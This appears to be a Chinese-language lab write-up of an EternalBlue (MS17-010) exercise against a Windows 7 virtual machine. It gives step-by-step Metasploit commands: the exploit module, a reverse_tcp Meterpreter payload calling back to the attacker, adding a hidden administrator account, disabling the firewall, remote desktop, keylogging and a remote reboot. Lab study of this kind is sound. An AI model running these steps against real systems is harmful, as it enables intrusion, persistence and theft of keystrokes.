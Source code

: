 # 网络攻防实验——永恒之蓝

## 1. 虚拟机安装

安装VMware，下载win7和Kali Linux镜像文件。安装虚拟机。

![image-20230828112006069](image-20230828112006069.png)

![image-20230828112023346](image-20230828112023346.png)

## 2. 配置网络环境

![image-20230828112124289](image-20230828112124289.png)

![image-20230828112147066](image-20230828112147066.png)

### 获取靶机和攻击机IP

![image-20230828171854496](image-20230828171854496.png)

![image-20230828115930612](image-20230828115930612.png)

靶机IP：192.168.179.5

攻击机IP：192.168.179.4

![image-20230828172040284](image-20230828172040284.png)

## 3. 扫描端口

用nmap命令对靶机端口服务进行扫描，发现445端口开启

![image-20230828172143638](image-20230828172143638.png)

## 4. 开始渗透

打开MSF渗透工具

![image-20230828172219538](image-20230828172219538.png)

search ms17_010：搜索 ms17_010漏洞

![image-20230828172343533](image-20230828172343533.png)

use exploit/windows/smb/ms17_010_eternalblue：进入漏洞模块

info：查看基本信息

![image-20230828172418367](image-20230828172418367.png)

![image-20230828172852224](image-20230828172852224.png)

set RHOST 192.168.179.5 ：设置靶机为攻击目标

![image-20230828172936068](image-20230828172936068.png)

show payloads：查看可用攻击的payload

set payload windows/x64/meterpreter/reverse_tcp：设置攻击的payload

set LHOST 192.168.179.4 ：设置攻击机为接受信息的本地设备

![image-20230828173030299](image-20230828173030299.png)

exploit：开始攻击

![image-20230828175151208](image-20230828175151208.png)

获取shell成功

## 5. 通过shell对靶机控制

![image-20230828184416625](image-20230828184416625.png)

net user hacker 123456 /add ：添加用户hacker 密码123456

net localgroup administrators hacker /add ：将hacker提升为管理员权限

![image-20230828191846355](image-20230828191846355.png)

net user 发现已将hacker添加至用户列表

![image-20230828192135515](image-20230828192135515.png)

net localgroup administrators 发现已将hacker 添加至管理员权限

**ps：此时还是乱码，后文会调整编码。**

![image-20230828191247038](image-20230828191247038.png)

打开靶机，发现用户添加成功

## 6. 实现远程桌面控制

![image-20230828185052130](image-20230828185052130.png)

打开远程桌面控制

扫描3389端口，发现已打开

![image-20230828185017660](image-20230828185017660.png)

在攻击机上连接靶机实现远程控制，但是失败了

![image-20230828184759732](image-20230828184759732.png)

通过shell命令，关闭靶机防火墙

![image-20230828184943608](image-20230828184943608.png)

再次连接成功！

## 7. 实现键盘监听

![image-20230828191139458](image-20230828191139458.png)

通过meterpreter命令，keyscan_start，keyscan_dump，keyscan_stop 实现键盘监听,失败了。

查找资料后，得知在system权限下，无法获取管理员的键盘记录，需要迁移至管理员权限

![image-20230828191051535](image-20230828191051535.png)

通过getuid命令，看到当前权限为system

ps命令 查找进程

![image-20230828190927925](image-20230828190927925.png)

migrate命令进行迁移，当前权限为管理员

![image-20230828190956576](image-20230828190956576.png)

![image-20230828191016400](image-20230828191016400.png)

keyscan_start：开启键盘监听

在靶机上输入have a good day，keyscan_dump获取输入内容

keyscan_stop：结束键盘监听

## 8. 改变靶机编码

![image-20230828191808090](image-20230828191808090.png)

因为Windows系统和Linux系统编码不同，所以要改变靶机编码，否则将会出现乱码

![image-20230828195705250](image-20230828195705250.png)

通过chcp 65001改变编码

发现改变前是乱码，改变后是正常文字

## 9. 远程操控重启

![image-20230828200403380](image-20230828200403380.png)

![image-20230828200424826](image-20230828200424826.png)

在管理员权限下，通过meterpreter输入reboot命令，靶机开始重启，连接断开。

## 10. 实验中遇到的问题

1. 第一次靶机系统安装的是Win7(x86)，发现无法被攻击，只有Win7(x64)才能被攻击。
  ![image-20230829094744640](image-20230829094744640.png)
2. 未开启文件与打印机共享，无法扫描到445端口。
3. 在用攻击机连接靶机远程桌面时，一直无法连接，显示error。在获取靶机shell，关闭靶机防火墙后，连接成功。
4. 未在管理员权限下进行键盘监听，监听不成功。需要进行进程迁移，迁移至管理员进程。
5. 未在管理员权限下重启，reboot不成功。同样迁移至管理员进程，成功！
6. 实验过程中有乱码出现，查找资料发现Windows编码与Linux编码不同，要改变Windows编码才能在Linux上正常显示。

